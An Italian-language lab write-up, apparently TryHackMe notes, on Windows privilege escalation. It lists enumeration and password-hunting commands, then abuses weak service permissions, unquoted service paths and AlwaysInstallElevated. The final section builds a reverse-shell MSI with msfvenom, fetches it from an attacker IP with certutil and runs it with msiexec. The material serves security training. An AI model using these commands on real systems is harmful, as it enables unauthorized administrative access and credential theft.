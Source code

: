 ```yaml
---
title: Privilege Escalation Widnows
categories: [TryHackMe, WriteUp]
tags: [TryHackMe, WriteUp]
---
```


# Privilege Escalation Windows

Presi da https://hacktips.it/guida-privilege-escalation-sistemi-windows/
**CAMBIARE IMMAGINI E TESTO**

### Collect Information
 - Versione del sistema operativo e informazioni base
   - ```systeminfo | findstr /B /C:“OS Name” /C:“OS Version”```
   - ```hostname```
   - ```echo %username%```
 - Configurazioni di rete
   - ```net users```
   - ```net users usersname```
   - ```ipconfig /all```
   - ```route print```
   - ```arp -A```
   - ```netstat -ano```
 - Servizi attivi
   - ```schtasks /query /fo LIST /v```
   - ```tasklist /SVC```
   - ```net start```
 - File di configurazione
   - ```type C:\sysprep.inf```
   - ```type C:\sysprep\sysprep.xml```
   - ```type %WINDIR%\Panther\Unattend\Unattended.xml```
   - ```type %WINDIR%\Panther\Unattended.xml```
   - ```type C:\Windows\system32\sysprep\sysprep.xml```
   - ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config```
   - ```type C:\inetpub\wwwroot\web.config```
 - Ricerca Password
   - ```reg query HKCU /f password /t REG_SZ /s```
   - ```reg query HKLM /f password /t REG_SZ /s```
   - ```findstr /si password *.txt```
   - ```findstr /si password *.xml```
   - ```findstr /si password *.ini```


### Weak Permission

```cacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"```


![calcs](/assets/img/posts/privesc-windows/weak_permission.png)

si può vedere dalla prima riga, che gli utenti appartenenti a “User” hanno completo accesso alla cartella (lettera F). In questo modo, basterà copiare la nostra reverse shell all’interno della cartella, riavviare la macchina (o disconnettersi dallla sessione) e si avrà una sessione amministrativa


### Weak Service

Utilizzando lo script di **PowerUp** abbiamo la possibilità di cercare servizi vulnerabili. Per eseguirlo, se digito

```powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks|Out-File -Encoding ASCII checks.txt}"```

verrà eseguito powershell, bypassando possibili controlli, in background e in modo tale da avere l’output scritto su un file di testo. Guardando all’interno del file, è stato controllato un servizio ed è risultato con permessi misconfigurati.

![Weak Service - Powershell](/assets/img/posts/privesc-windows/weak_service1.png)

Per verificare i permessi del servizio, carico sulla macchina **AccessChk**, che serve per verificare i permessi sui file, registri, servici, etc.

![Weak Service - AccessChk](/assets/img/posts/privesc-windows/weak_service2.png)

Come si può notare dall’immagine, chiunque può modificare i dettagli del servizio. Andiamo quindi ad indagare quali sono con il tools sc.

![Weak Service](/assets/img/posts/privesc-windows/weak_service3.png)


Per poter ottenere i privilegi di root, ci basterà modificare il PATH del binario con una nostra reverse shell, fermare e riavviare il servizio. In questo modo esso si avvierà come amministratore, e ci permetterà di diventare tali.


```sc config daclsvc binpath= "C:\Users\luca\Downloads\reverse.exe"```

```sc stop daclsvc #In questo momento andremo ad avviare netcat sulla nostra macchina```

```sc start daclsvc```


### Unquoted Service Path

Sempre tramite l’outpur di **PowerUP**, viene mostrato come vari servizi non abbiano le virgolette, andando a descrivere il path errato.

![Unquoted Service Path - PowerUP](/assets/img/posts/privesc-windows/unquoted_path1.png)

In questo modo, basterà andare a a copiare un file con il nome di “common” e questo verrà eseguito, poichè il sistema andrà a cercarne uno con quel nome.

![Unquoted Service Path](/assets/img/posts/privesc-windows/unquoted_path2.png)

Copio la mia solita reverse shell, mi metto in ascolto sulla porta e faccio partire il servizio

```sc stop unquotedsvc```

```sc start unquotedsvc```


![Unquoted Service Path - Powershell](/assets/img/posts/privesc-windows/unquoted_path3.png)



-------

vedi C:\ProgramFiles\SystemScheduler\WScheduler.exe se ha permessi di scrittura


#### AlwaysInstallElevated
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

In locale:
```
(base) ┌──(kali㉿kali)-[~/Programs/PowerTools/PowerUp]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=5040 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Nella macchina vittima:
```
C:\Users\Phoebe\Desktop>certutil -urlcache -split -f "http://10.10.14.23/reverse.msi" rev.msi
certutil -urlcache -split -f "http://10.10.14.23/reverse.msi" rev.msi

****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.

C:\Users\Phoebe\Desktop>
C:\Users\Phoebe\Desktop>msiexec /quiet /qn /i rev.msi
msiexec /quiet /qn /i rev.msi
```

E mettere in listening e si ha una reverse shell con privilegi.